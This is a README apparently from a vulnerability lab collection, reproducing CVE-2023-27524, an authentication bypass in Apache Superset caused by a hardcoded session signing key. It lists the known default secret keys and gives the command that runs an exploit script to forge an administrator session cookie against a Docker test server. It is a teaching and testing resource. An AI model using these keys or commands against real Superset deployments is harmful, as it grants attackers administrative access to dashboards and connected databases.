


# Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Superset is an open-source data exploration and visualization platform designed to be visual, intuitive, and interactive.

Apache Superset contains a hardcoded JWT secret key vulnerability (CVE-2023-27524). The application ships with a default `SECRET_KEY` value that is used to sign session cookies. When administrators fail to change this default key, attackers can forge valid session cookies and authenticate as any user, including administrators. This allows unauthorized access to the Superset dashboard, connected databases, and potentially leads to remote code execution.

When combined with [CVE-2023-37941](../CVE-2023-37941/README.md), an unauthenticated attacker can achieve remote code execution by first bypassing authentication and then exploiting the deserialization vulnerability. This documentation only demonstrates the exploitation of CVE-2023-27524.

References:

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

## Environment Setup

Execute the following command to start an Apache Superset 2.0.1 server:

```
docker compose up -d
```

After the server is started, you can access Superset at `http://your-ip:8088`. The default login credentials are admin/vulhub.

## Vulnerability Reproduction

The vulnerability exists because Superset uses one of following hardcoded default `SECRET_KEY` values:

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (version < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (version >= 1.4.1)
- `thisISaSECRET_1234` (deployment template)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY` (documentation)
- `TEST_NON_DEV_SECRET` (docker compose)

Use [CVE-2023-27524.py](CVE-2023-27524.py) to forge an administrative session (whose user_id is 1) cookie:

```bash
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

This script attempts to crack the session cookie using known default secret keys. If successful, it will forge a new session cookie with user_id=1 (typically the admin user) and validate the login.



Use this JWT token in the cookie value like `Cookie: session=eyJ...`, you can access the backend endpoint of Superset:


